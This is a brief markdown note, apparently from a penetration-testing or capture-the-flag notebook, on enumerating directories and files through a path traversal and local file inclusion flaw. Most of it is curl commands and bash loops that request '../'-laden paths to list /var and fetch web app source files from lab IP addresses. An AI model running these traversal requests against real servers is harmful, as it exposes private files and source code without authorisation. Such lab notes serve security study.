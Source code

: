 # Dir Enumeration

### Show directory on console.

```bash
# Run the curl commands on console. You may get the directory list
curl http://10.129.234.205:8080/show_image?img=../../../../../../var/
curl http://10.129.234.205:8080/show_image?img=../../../../../../var/www/WebApp
```

### Recursive display on files

{% code overflow="wrap" %}
```bash
# For loop in bash to show files
for i in HELP.md mvnw mvmd.cmd pom.xml src target; do echo ******$i; curl http://10.129.234.205:8080/show_image?img=../../../../../../var/www/WebApp/$i -o-;done 

# Another example
for i in $(cat lfi-input.txt | sed 's/[ ][ ]*/ /g' | cut -d ' ' -f 9 | sed 's/\"//g'); do echo "$i"; echo ""; curl http://10.129.23.184:8000/?page=../../../..$i -o -; done
```
{% endcode %}
